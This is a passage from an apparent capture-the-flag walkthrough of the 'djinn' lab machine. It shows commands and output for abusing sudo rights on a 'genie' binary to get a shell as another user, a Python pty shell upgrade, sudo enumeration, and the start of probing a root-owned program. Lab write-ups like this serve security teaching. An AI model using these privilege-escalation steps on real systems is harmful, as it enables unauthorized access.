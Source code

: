 ### Low Privilege Exploitation (sam)

Next, executing it as user sam, gives us shell as sam user.

nitish\@djinn:/opt/80\$ sudo -u sam genie -cmd whoami

sudo -u sam genie -cmd whoami

my man!!

\$ whoami

whoami

sam

Upgrading the shell to TTY.

\$ python -c "import pty;pty.spawn('/bin/bash')"

python -c "import pty;pty.spawn('/bin/bash')"

### Further Enumeration.

sam\@djinn:/home/sam\$ sudo -l

sudo -l

Matching Defaults entries for sam on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User sam may run the following commands on djinn:

(root) NOPASSWD: /root/lago

Looks like another executable. Let's try and run it.

sam\@djinn:/home/sam\$ sudo /root/lago

sudo /root/lago

What do you want to do ?

1 - Be naughty

2 - Guess the number

3 - Read some damn files

4 - Work

Enter your choice:2

2

Choose a number between 1 to 100:

Enter your number: 39

39
